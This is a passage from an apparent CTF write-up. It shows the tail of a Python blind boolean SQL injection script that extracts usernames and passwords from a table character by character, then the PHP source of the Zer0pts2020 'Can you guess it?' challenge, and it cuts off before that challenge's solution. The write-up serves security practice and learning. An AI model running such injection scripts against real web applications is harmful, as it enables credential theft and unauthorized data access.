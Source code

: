 ```python
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(username,password))from(F1naI1y)),{i},1))<{mid})"
            print(tmp_url, low, high)
            resp = requests.get(tmp_url, timeout=8)
            if "NO! Not this! Click others~~~" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        column_values += chr(mid - 1)
        print(column_values)
    print(f"value is: {column_values}")
    
    
if __name__ == '__main__':
    # judge_database()
    # get_database()
    # get_tables_length()
    # get_tables()
    # get_column_length()
    # get_columns_name()
    # get_flag_value()  # 没在那个表里 重新查表
    # get_column_length('F1naI1y')
    # get_columns_name('F1naI1y', 20)
    # get_all_column_length()
    get_final_flag_value()
```

## [Zer0pts2020]Can you guess it?

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
```